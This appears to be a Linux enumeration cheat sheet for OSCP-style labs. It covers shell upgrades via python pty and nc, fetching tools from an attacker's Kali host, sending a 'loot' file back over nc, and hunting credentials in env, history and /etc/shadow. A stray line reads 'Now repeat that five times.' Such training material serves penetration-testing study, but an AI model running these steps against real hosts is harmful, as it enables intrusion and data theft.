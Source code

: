 # Linux Enumeration

I will do **Manual Enumeration** before running LinPEAS or lse or pspy. 

Now repeat that five times.

Many OSCP boxes are designed in a way where linPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a linux host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc (which should be native on a linux host) or a msfvenom payload. Also do the following to upgrade a shell to tty using python (or python3)

```bash
# on the target host
which python python2 python3 # check which python exist. Then use the relevant version below

python -c "import pty;pty.spawn('/bin/bash');"

python3 -c "import pty;pty.spawn('/bin/bash');"

python3 -c 'import os; os.system("/bin/sh");

```

## How to transfer files from Kali to Linux

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using /tmp, /dev/shm, /var/tmp (default global writable directories) or if you land a shell as a user, you can use that user's home directory.

```bash
wget http://<kali ip>/<file>
```

On the off chance that you somehow cant use wget, check if your current user has its path variables set correctly

```bash
# on the target

echo $PATH 

# In general, should look something like this: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games
# if somehow this is empty then just set the Path variable

export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games

echo $PATH # to verify

```

Ok I really dont have wget! So what now? If you ssh-ed into the host, you can use scp (Secure Copy Paste)

```bash
# on your kali

scp [OPTIONS] [[user@]src_host:]file1 [[user@]dest_host:]file2

OPTIONS
-r recursive copy
-q quiet mode

For files we can use wildcard such as *.php

# if need diff port and id_Rsa keys, put them in front for it to work

# the below examples uses id_rsa to login and transfers linpeas.sh from kali to the /home/anita path

scp -P 2222 -i id_rsa linpeas.sh anita@192.168.208.245:/home/anita

```

If not SSH, you can always see the ancient method of using nc to file transfer.

Transferring evil.sh from kali to target
```bash
# on kali
nc -lvnp 80 < evil.sh
# on target
nc <kali ip> 80 > evil.sh
```
Transferring loot.txt from target to kali
```bash
# on kali
nc -lvnp 80 > loot.txt
# on target
nc <kali ip> 80 < loot.txt
```

-------------------
## Checking for the Quick Wins

1) The first few commands you SHOULD ALWAYS RUN in this:

```bash
# check your group
id
# check your history
history
# check your sudo powers
sudo -l
# check your environment variables
env
```

If you see groups like docker, backup, disk, adm, or anything that is just not your username. These are things that are either PE vectors or things you should investigate as being in those groups can give you certain powers. Note down!

sudo -l can reveal quick wins and more often than not THE PE vector. 

env to check for hardcoded credentials

2) The second thing is user enumeration and user home directories enumeration

```
cat /etc/passwd

ls -la /etc/passwd /etc/shadow  # might as well see if you can write to passwd or read shadow for an easy win

# ls -laRH lists all files recursively (including hidden) and outputs in human readable form. This is a godly command to quickly spider down directories

# you ls -laRH /home so that you can quickly see what files are in each user's directory (provided you can access them)

ls -laRH /home
```

3) The third thing you should do is to enumerate the world writable directories. Any thing inside that is not the default files should be investigated.

```bash
ls -la /tmp /opt /dev/shm /var/tmp
```


